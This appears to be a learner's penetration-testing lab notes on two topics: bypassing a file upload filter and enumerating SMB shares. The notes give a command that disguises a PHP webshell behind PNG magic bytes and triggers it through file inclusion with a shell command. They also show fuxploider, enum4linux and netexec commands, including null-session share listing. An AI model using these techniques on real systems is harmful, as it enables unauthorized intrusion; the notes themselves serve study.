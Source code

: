 ```bash
wget "URL" -O image.png
xxd image.png

(head -c 8 png.png;cat webshell.php) > output.php
FLI leverage > ../../uploads/output.png&cmd=ls 
```

- takes a long time> automation tool
    - fuxploider
```bash
python3 fuxploider.py --url http://172.31.188.142:4280/vulnerabilities/upload/ --cookies="PHPSESSID=7ab0e8e9c36dd8e373050f78b18629d5; security=medium" --not-regex "not uploaded" -d "Upload=Upload"
```

### SMB 445 (mostly Windows)
- Server Message Block known as CIFS(Common Internet File System), made for accessing to printer resources in internet network, used for sharing files in the workplace 
- Share file printer, but can remote control and commands 
- Null session : without credential, can access > upload/download 
- Share-directory-file 
- if get some user credentials, check if there's any share/dir can access 
- SMB vulns a lot (win- MS~, linux - Samba)
- `nmap -p 445 -sV -sC -Pn 172.31.188.142 -n `


1. enum4linux : samba or SMB information gathering tool in Linux
```bash
enum4linux -a 172.31.188.142 : all
```
- output too many
- null session check, allows user no credentials
- windows > linux : Windows more informations 

```
print$
IPC$
: default usually ignore
samba-share 
: mapping, listening OK - read, writable N/A - write X
```

enumeration of local account users name takes a long time but important, netexec(from crackmapexec)

2. netexec
```bash
sudo pip3 install pipx : python module
pipx install git+NetExec 

netexec(nxc) smb 172.31.188.142 

netexec smb 172.31.214.13 -u '' -p '' : null session O
netexec smb 172.31.214.13 -u '' -p '' --shares
```
- AC or network based pentesting too many use
- enum4linux alternative
